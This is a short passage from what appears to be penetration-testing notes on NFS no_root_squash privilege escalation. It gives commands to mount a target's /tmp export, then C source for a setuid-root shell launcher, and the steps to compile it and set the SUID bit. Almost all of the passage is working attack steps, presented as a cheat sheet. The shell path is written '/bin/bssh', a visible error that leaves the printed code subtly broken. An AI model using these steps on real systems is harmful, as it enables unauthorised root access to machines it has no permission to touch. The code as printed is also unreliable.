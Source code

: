 - Choose a "no_root_squash" folder to mount to from a temp folder:

``` bash
mkdir /tmp/temp
```
{: .nolineno }

``` bash
mount -o rw <target_ip>:/tmp /tmp/temp
```
{: .nolineno }

### Create and Compile

Create and compile an executable and then set the SUID bit

``` bash
vim nfs.c
```
{: .nolineno }

``` c
int main()
{ setgid(0);
setuid(0);
system("/bin/bssh");
return 0;
}
```
{: .nolineno }

``` bash
gcc nfs.c -o nfs -w
```
{: .nolineno }

``` bash
chmod +s nfs
```
{: .nolineno }














